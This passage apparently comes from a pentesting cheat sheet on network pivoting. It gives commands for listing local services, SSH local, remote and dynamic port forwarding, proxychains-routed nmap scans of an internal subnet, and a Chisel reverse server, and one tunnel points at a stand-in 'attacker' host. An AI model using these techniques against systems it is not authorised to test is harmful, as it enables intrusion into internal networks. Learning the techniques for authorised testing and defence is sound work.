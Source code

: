Enumerate listening services:

```bash
ss -tuln | grep 127.0.0.1
```

***

### III. ⚙️ SSH-Based Tunneling

#### 🧩 1. Local Port Forwarding

Forward **remote service → local port**

```bash
ssh -L 8080:127.0.0.1:80 user@pivot-host
```

Now visit `http://127.0.0.1:8080` locally to access the remote web server.

***

#### 🧩 2. Remote Port Forwarding

Expose **your local service** to the remote host

```bash
ssh -R 9001:127.0.0.1:80 user@attacker
```

The remote system can now access your local port 80 through its 9001.

***

#### 🧩 3. Dynamic Port Forwarding (SOCKS Proxy)

```bash
ssh -D 1080 user@pivot-host
```

Configure `proxychains.conf`:

```
socks5 127.0.0.1 1080
```

Then:

```bash
proxychains nmap -sT -Pn 10.10.0.0/24
```

***

### IV. ⚒️ Chisel — Lightweight Pivoting Weapon

#### 🧠 1. Setup Listener (Attacker)

```bash
chisel server -p 8000 --reverse
```
